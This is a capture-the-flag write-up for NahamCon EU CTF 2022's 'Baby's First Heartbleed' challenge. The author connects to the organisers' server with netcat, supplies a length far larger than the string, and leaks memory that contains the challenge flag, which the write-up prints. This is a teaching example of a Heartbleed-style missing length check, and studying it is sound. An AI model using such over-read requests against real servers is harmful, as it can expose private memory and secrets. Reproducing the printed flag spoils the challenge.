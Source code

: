 # Baby's First Heartbleed

## Overview

- Overall difficulty for me (From 1-10 stars): ★☆☆☆☆☆☆☆☆☆

- Challenge difficulty: Easy

## Background

Author: @JohnHammond#6971  
  
Hey kids!! Wanna learn how to hack??!?! Start here to foster your curiosity!  
  
**Press the `Start` button on the top-right to begin this challenge.**

**Connect with:**  
`nc challenge.nahamcon.com 31305`

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/NahamCon-EU-CTF-2022/images/Pasted%20image%2020221216223317.png)

## Find The Flag

**Let's use `nc`(Netcat) to connect to the docker instance!**
```
┌──(root🌸siunam)-[~/ctf/NahamCon-EU-CTF-2022/Warmups/Baby's-First-Heartbleed]
└─# nc challenge.nahamcon.com 31305


===============================================================================
     _   _ _____    _    ____ _____ ____  _     _____ _____ ____  
    | | | | ____|  / \  |  _ \_   _| __ )| |   | ____| ____|  _ \ 
    | |_| |  _|   / _ \ | |_) || | |  _ \| |   |  _| |  _| | | | |
    |  _  | |___ / ___ \|  _ < | | | |_) | |___| |___| |___| |_| |
    |_| |_|_____/_/   \_\_| \_\|_| |____/|_____|_____|_____|____/ 
                                                                      
===============================================================================

THANK YOU FOR CONNECTING TO THE SERVER. . .

TO VERIFY IF THE SERVER IS STILL THERE, PLEASE SUPPLY A STRING.

STRING ['apple']: 
```

**Hmm... Let's type `apple`:**
```
STRING ['apple']: apple
LENGTH ['5']: 
```

**The length of `'5'` is 1, we can use `python3` to verify that:**
```
┌──(root🌸siunam)-[~/ctf/NahamCon-EU-CTF-2022/Warmups/Baby's-First-Heartbleed]
└─# python3
[...]
>>> len('5')
1
```

```
LENGTH ['5']: 1

... THE SERVER RETURNED:

a

TO VERIFY IF THE SERVER IS STILL THERE, PLEASE SUPPLY A STRING.

STRING ['apple']: 
```

Wait what??

Umm... What if I typed the length more than 5?

**Let's try again:**
```
STRING ['apple']: apple
LENGTH ['5']: 10

... THE SERVER RETURNED:

apple@appl
```

Hmm... Looks like the `STRING ['apple']` is useless, and **we can leak something interesting in `LENGTH ['x']`!**

**How about we type `1337` in the length?**
```
STRING ['apple']: 
LENGTH ['5']: 1337

... THE SERVER RETURNED:

apple@apple@00@00@00@00@00@00@00@00@00@00@00@00@00@00@apple@00@00@apple@00@apple@00@apple@00@apple@00@flag{bfca3d71260e581ba366dca054f5c8e5}@apple@00@00@00@00@00@00@00@00@00@00@00@00@00@00@00@00@00@00@00@00@00@00@00@00@00
```

Oh!! We leaked the flag!

- **Flag: `flag{bfca3d71260e581ba366dca054f5c8e5}`**

# Conclusion

What we've learned:

1. Leaking The Flag via No Input Validation